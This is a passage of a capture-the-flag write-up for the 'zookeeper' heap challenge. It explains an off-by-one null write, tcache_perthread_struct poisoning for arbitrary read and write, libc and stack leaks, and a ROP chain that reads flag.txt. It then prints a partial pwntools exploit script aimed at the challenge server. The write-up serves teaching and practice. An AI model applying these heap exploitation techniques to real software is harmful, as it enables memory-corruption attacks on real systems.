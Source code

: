 <br>

Since we can allocate any size chunk, what would happen if we allocate a chunk with size 0? Well, we would get a chunk of size 0x20. Since we inputted 0, where would the null byte be written to? Thats right, at position -1! This means if there was some value stored before we write to the chunk, we can read that value.

How can this be used to get an Arbitary Read? Easy, by writing to the tcache_perthread_struct, we can change the head of the first tcache freelist (the one that handles chunks of size 0x20), and using the trick above, we can read any value anywhere!

Using this, getting a libc address leak and a stack address leak should be easy. Stack address leak we can get from environ (in libc), and libc address leak we can get from a freed large bin.

### Arbitrary Write
> This is a good spot to pause if you would like to figure it out for yourself!

<br>

Well, it probably obvious already how to get an arbitarary write. Like arbitary read, we can change the head of any tcache freelist head, so even tcache bins the with the size 0x300 can be used to write anywhere. Like I said before, I wrote to the stack so that I could create a ropchain. Using this ropchain, I opened "flag.txt", read from it, and printed the contents. GG!

### Full Exploit
Here's the full exploit :D

```py
from pwn import *
import codecs

libc = ELF('./libc-2.31.so')
seccomp = ELF('./libseccomp.so.2.5.1')

# p = process('./zookeeper', env={"LD_PRELOAD": libc.path + " " + seccomp.path})
p = remote("zookeeper.chal.imaginaryctf.org", 1337)

def add(idx, size, content, usecontent=True):
    p.sendlineafter("(v)iew a lion\n", "f")
    p.sendlineafter("idx:", str(idx))
    p.sendlineafter("len:", str(size))
    if(usecontent):
        p.sendlineafter("content:", content)

def lose(idx):
    p.sendlineafter("(v)iew a lion\n", "l")
    p.sendlineafter("idx:", str(idx))

def view(idx):
    p.sendlineafter("(v)iew a lion\n", "v")
    p.sendlineafter("idx:", str(idx))

# Get heap leak
add(0, 0x10, "asdf")
add(0, 0x0, "asdf", usecontent=False)
view(0)
p.recvline()
heap_leak = int(codecs.encode(p.recvline().strip()[::-1], 'hex'), 16)
print(hex(heap_leak))
heap_base = heap_leak - 0x1db0


# Free tcache_perthread_struct
add(0, 0x10, "ZAFIR_1")
lose(0)

```